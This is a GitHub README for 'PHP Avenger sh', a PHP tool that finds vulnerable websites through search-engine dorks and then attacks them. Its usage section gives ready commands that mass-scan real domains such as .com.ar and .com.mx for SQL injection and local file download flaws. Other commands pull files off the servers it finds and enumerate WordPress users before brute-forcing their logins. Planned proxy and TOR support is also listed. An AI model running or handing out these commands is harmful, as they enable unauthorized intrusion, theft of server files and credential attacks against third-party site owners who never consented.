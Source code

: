 # PHP Avenger

> PHP Avenger is a modern collection of open source tools written in PHP with focus in security and hacking.

### Beta

* PHP Avenger sh ( Search Engine )

### Future Implementation


* PHP Avenger bt ( Brute - Force )
* PHP Avenger sca ( State Code Analyse )
* PHP Avenger pwp ( Plugin WordPress )
* PHP Avenger cj ( Component Joomla )

***
#PHP Avenger SH

> Php Avenger sh is a open source tool with an idea **based in a fork inurlbr by Cleiton Pinheiro**. Basically **PHP Avenger sh** is a tool that automates the process of detecting possible vulnerabilities using mass scan and checking if the vulnerability is true or false. Php Avenger uses search engines like google, bing and others through dorks ( advanced search ).

## Installation

The recommended way to install PHP Avenger is through
[Composer](http://getcomposer.org).

```bash
# Install Composer
curl -sS https://getcomposer.org/installer | php
```

Next, run the Composer command to install the latest beta version of Php Avenger SH:

```bash
php composer.phar create-project aszone/avenger-sh
cd avenger-sh
```
## Basic Usage

> Use the commands bellow to init the process, results will be printed in the monitor and saved in a `.txt` file on folder `results`.

### Get trash search

```bash
php avenger sh --dork="site:com.ar ext:sql password"
```
#### Result of trash search
![alt tag](http://lenonleite.com.br/wp-content/uploads/2016/06/imagem1.png)


### Check Sql Injection
```bash
php avenger sh --dork="site:com.ar inurl:php?id=" --check="sqli"
```
#### Result of Sql Injection
![alt tag](http://lenonleite.com.br/wp-content/uploads/2016/06/imagem2.png)
![alt tag](http://lenonleite.com.br/wp-content/uploads/2016/06/imagem3.png)


### Check Local File Download
```bash
php avenger sh --dork="site:com.ar inurl:download.php?file=" --check="lfd"
```
#### Result of Local File Download
![alt tag](http://lenonleite.com.br/wp-content/uploads/2016/06/imagem7.png)

### Check and Exploited Local File Download

> This next command you will check vulnerabilities and extract files of server. The files will save in /results/exploits/lfd/

```bash
php avenger sh --dork="site:com.mx inurl:download.php?file=" --check="lfd" --exploit="lfd"
```
#### Result of Extract Files
![alt tag](http://lenonleite.com.br/wp-content/uploads/2016/11/lfdFiles.png)
#### Video of Extract Files
[![Video of extract files](https://img.youtube.com/vi/IdrpQ7KQlmU/0.jpg)](https://www.youtube.com/watch?v=IdrpQ7KQlmU)

### Check is Admin Page
```bash
php avenger sh --dork="site:com.ar inurl:admin" --check="isAdmin"
```

### Check is Admin Page and if Admin Page for WordPress get all users and start brute force
```bash
php avenger sh --dork="site:com inurl:wp-content/uploads" --check="isAdmin" --exploit="btwp"
```

### Help for commands
```bash
php avenger sh
```

## Details

#### Search Engines
* Google
* GoogleApi
* Bing
* DuckDuckGo
* Yahoo
* Yandex

#### Covered Vulnerabilities
* Sql Injection (SQLI)
* Local File Download (LFD)
* Admin Page
* Remote File Inclusion (RFI)
* Cross-Site-Scripting (XSS)

#### Covered Exploits
* Local File Download (LFD)
* Brute Force for WordPress

#### Covered Vulnerabilities in next versions
* Sensitive Files
    * Dump Files
    * Config Files
    * Open Folders

#### Features under development
* Power Search
* Send E-mail with results
* Naming the `.txt` result file
* Proxys
    * TOR
    * Site of Proxys
    * **Virgin Proxies**

## Help and docs
* [Documentation](http://phpavenger.aszone.com.br).
* [Examples](http://phpavenger.aszone.com.br/examples).
* [Videos](https://www.youtube.com/user/MrLenonleite).
* [Steakoverflow](http://phpavenger.aszone.com.br).


